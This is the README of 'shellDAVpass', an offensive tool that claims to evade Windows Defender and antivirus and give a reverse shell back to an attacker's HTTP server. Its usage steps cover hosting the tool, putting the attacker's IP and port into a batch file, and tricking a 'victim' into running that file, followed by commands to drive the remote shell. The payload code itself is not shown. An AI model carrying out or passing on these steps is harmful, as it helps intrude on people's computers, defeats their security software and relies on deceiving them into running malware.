 # shellDAVpass
shellDAVpass application is the Open-Source project, the main idea of which is to bypass the defender and AntiVirus detections to conduct a non interactive reverse shell to execute the Windows commands

Usage example:
--------------
```
1. Start your HTTP server. For APACHE inder Debian (Ubuntu/Kali):
  systemctl start apache2.service 
2. The default port is 80. You are free to change it by editing /etc/apache2/ports.conf
  Listen 80
3. cd /var/www/html
4. git clone https://github.com/IvanGlinkin/shellDAVpass.git
5. chown -R www-data: shellDAVpass
6. cd shellDAVpass
7. nano shellDAVpass.bat
8. Change the IP-address and Port
  SET IPADDRESS=10.211.55.11
  SET PORT=80
9. Save the changings (by pressing CTRL+O and Enter. To exit, press CTRL+X)
10. !!! Send the shellDAVpass.bat to the victim and courage him/her to launch the file !!!
11. Launch the command prompt
  bash shellDAVpass.sh
12. Enter your commands
```
An original article:
--------------------
[https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/](https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/)

Video example:
--------------
![Watch the video](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVpass-demo.mov)

Screenshots:
------------
![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-001.png)

![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-002.png)

![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-003.png)

![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell.png)
